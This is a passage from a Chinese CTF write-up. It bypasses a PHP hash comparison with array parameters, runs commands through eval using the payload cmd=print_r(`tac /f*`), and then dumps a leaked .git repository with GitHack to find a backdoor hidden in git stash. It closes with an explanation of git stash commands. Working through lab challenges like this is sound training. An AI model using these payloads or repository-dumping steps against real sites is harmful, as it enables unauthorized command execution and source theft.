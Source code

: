 
进行代码审计，主要要绕过这个语句

```
if(sha1($_GET['new'])===md5($_POST['star'])&&$_GET['new']!==$_POST['star'])
```

我们使用数组绕过

```
?new[]=1

star[]=2
```

绕过后我们进行命令执行，由于eval前面有个echo

我们需要eval里的是文本，那我们就使用print_r加上`来执行命令

```
cmd=print_r(`tac /f*`)
```

得到flag

![image-20241009221144583](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410092211659.png)

### PangBai 过家家（2）

![image-20241018200037552](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182000590.png)

第一关让我们清点泄漏的文件，那不就是.git文件吗

我们利用GitHack工具把文件夹下载下来

![image-20241018203939053](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182039114.png)

我们使用git命令查看当前项目信息，使用

git log --stat

查看提交历史

![image-20241018204037996](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182040051.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。但没什么用

我们查看Stash

```
git stash list
```

我们可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

![image-20241018204246522](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410182042559.png)

> Stash 的作用
>
> 有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。
>
> 又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。
>
> 一些常见的 Stash 命令如：
>
> - `git stash`
>
>   保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save '一些信息'` 可以添加一些注释。
>
> - `git stash pop [-index] [stash_id]`